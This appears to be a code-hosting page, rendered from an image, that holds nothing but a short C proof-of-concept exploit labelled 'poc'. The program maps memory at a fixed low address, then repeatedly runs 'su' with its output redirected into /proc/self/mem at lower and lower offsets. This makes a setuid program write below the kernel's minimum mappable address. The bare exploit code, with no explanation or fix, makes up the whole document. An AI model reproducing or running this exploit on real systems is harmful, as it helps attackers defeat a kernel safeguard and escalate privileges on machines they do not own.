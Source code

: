 poc：   
```
int main()
{
    unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
	if (addr != 0x10000)
			err(2,"mmap failed");
	int fd = open("/proc/self/mem",O_RDWR);
	if (fd == -1)
			err(2,"open mem failed");
	char cmd[0x100] = {0};
	sprintf(cmd, "su >&%d < /dev/null", fd);
	while (addr)
	{
			addr -= 0x1000;
			if (lseek(fd, addr, SEEK_SET) == -1)
					err(2, "lseek failed");
			system(cmd);
	}
	printf("contents:%s\n",(char *)1);
}
```
